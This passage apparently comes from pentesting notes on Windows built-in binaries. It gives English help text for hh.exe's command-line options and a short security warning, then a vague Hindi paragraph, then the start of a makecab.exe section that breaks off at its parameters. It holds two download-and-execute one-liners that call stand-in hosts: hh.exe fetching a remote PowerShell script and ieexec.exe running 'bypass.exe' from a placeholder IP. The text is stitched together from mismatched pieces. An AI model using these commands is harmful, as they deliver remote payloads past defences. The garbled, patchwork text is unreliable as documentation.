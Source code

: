 This will open the CHM file in the default HTML Help Viewer application.

## Additional Options

`hh.exe` also supports additional command-line options for more advanced usage. Some of the commonly used options include:

- `/mapid <context_id>`: Opens the CHM file and displays the topic associated with the specified context ID.
- `/index <keyword>`: Opens the CHM file and displays the topic associated with the specified keyword in the index.
- `/search <query>`: Opens the CHM file and displays the search results for the specified query.

For more information about the available options, you can run `hh.exe /?` to display the help documentation for `hh.exe`.

## Security Considerations

It's important to note that `hh.exe` can execute scripts embedded in CHM files, which can potentially be used to execute malicious code. Therefore, it's recommended to only open CHM files from trusted sources and ensure that your system is protected with up-to-date antivirus software.

## References

- [Microsoft Docs - HTML Help API](https://docs.microsoft.com/en-us/previous-versions/windows/desktop/htmlhelp/html/html_help_api_0z51z1h6(v=vs.85))
```
HH.exe http://some.url/script.ps1
```
यह एक प्रक्रिया है जो विंडोज प्रणाली में चलती है। यह प्रक्रिया विंडोज कमांड लाइन इंटरफेस (CMD) के माध्यम से चलाई जा सकती है। इस प्रक्रिया का उपयोग विभिन्न कार्यों को करने के लिए किया जा सकता है, जैसे कि फ़ाइलों को चलाना, सेटिंग्स को परिवर्तित करना, नेटवर्क कनेक्शन को सेट करना, आदि। इस प्रक्रिया का उपयोग पेंटेस्टिंग में भी किया जा सकता है ताकि हैकर विंडोज प्रणाली में विभिन्न सुरक्षा गठनों को देख सके और उन्हें उम्मीद से अधिक सुरक्षित बना सके।
```
ieexec.exe http://x.x.x.x:8080/bypass.exe
```
# Makecab.exe

Makecab.exe is a command-line tool in Windows that is used to create cabinet (.cab) files. Cabinet files are compressed archives that can contain multiple files and folders. This tool is commonly used for packaging and compressing files for distribution or installation purposes.

## Syntax

```
makecab [/V[n]] [/D var=value ...] [/L dir] source [destination]
```

## Parameters
